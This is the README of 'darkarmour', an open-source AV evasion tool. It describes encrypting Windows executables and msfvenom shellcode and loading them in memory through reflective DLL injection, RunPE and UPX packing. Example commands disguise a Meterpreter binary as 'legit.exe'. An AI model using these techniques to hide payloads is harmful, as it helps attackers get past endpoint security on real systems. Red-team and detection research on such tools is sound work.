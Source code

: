 # Windows AV Evasion Tool

Store and execute an encrypted windows binary from inside memory, without a single bit touching disk.

## Usage

```

          _,.
        ,` -.)
       ( _/-\-._
      /,|`--._,-^|           ,¡
      \_| |`-._/||          / /
        |  `-, / |         /  /
        |     || |        /  /  ______           _     ___
         `r-._||/   __   /  /   |  _  \         | |   / _ \
     __,-<_     )`-/  `./  /    | | | |__ _ _ __| | _/ /_\ \_ __ _ __ ___   ___  _   _ _ __
    '  \   `---'     \ /  /     | | | / _` | '__| |/ /  _  | '__| '_ ` _ \ / _ \| | | | '__|
        |           |./  /      | |/ / (_| | |  |   <| | | | |  | | | | | | (_) | |_| | |
        /            /  /       |___/ \__,_|_|  |_|\_\_| |_/_|  |_| |_| |_|\___/ \__,_|_|
    \_/' \       |  /  /
     |    |   _,^-'/  /
     |    , `` (\ /  /_                    By Dylan Halls     |     Version 0.3
    \,.->._     \X-=/^
      (  /   `-._//^`
       `Y-.____(__}
        |     {__)
               ()



usage: darkarmour.py [-h] [-f FILE] -e ENCRYPT [-S SHELLCODE] [-b] [-d] [-u]
                     [-j] [-r] [-s] [-k KEY] [-l LOOP] [-o OUTFILE]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  file to crypt, assumed as binary if not told otherwise
  -e ENCRYPT, --encrypt ENCRYPT
                        encryption algorithm to use (xor)
  -S SHELLCODE, --shellcode SHELLCODE
                        file contating the shellcode, needs to be in the
                        'msfvenom -f raw' style format
  -b, --binary          provide if file is a binary exe
  -d, --dll             use reflective dll injection to execute the binary
                        inside another process
  -u, --upx             pack the executable with upx
  -j, --jmp             use jmp based pe loader
  -r, --runpe           use runpe to load pe
  -s, --source          provide if the file is c source code
  -k KEY, --key KEY     key to encrypt with, randomly generated if not
                        supplied
  -l LOOP, --loop LOOP  number of levels of encryption
  -o OUTFILE, --outfile OUTFILE
                        name of outfile, if not provided then random filename
                        is assigned
```

## Usage

- Generate an undetectable version of a pe executable

      ./darkarmour.py -f bins/meter.exe --encrypt xor --jmp -o bins/legit.exe --loop 5

- Execute shellcode (x86/64) inside memory without detection, just provide the raw shellcode

      ./darkarmour.py -S -f bins/meter.bin --encrypt xor --jmp -o bins/legit.exe --loop 5

## Installation

It uses the python stdlib so no need to worry about any python dependencies, so the only issue you could come accoss are binary dependencies. The required binarys are: i686-w64-mingw32-g++, i686-w64-mingw32-gcc and upx (probly osslsigncode soon as well).
These can all be installed via apt.

```
sudo apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode
```

## TODO

  - Intergrate into PowerUp
  - Optional signing of binarys
  - Load pe image over a socket so not stored inside the binary
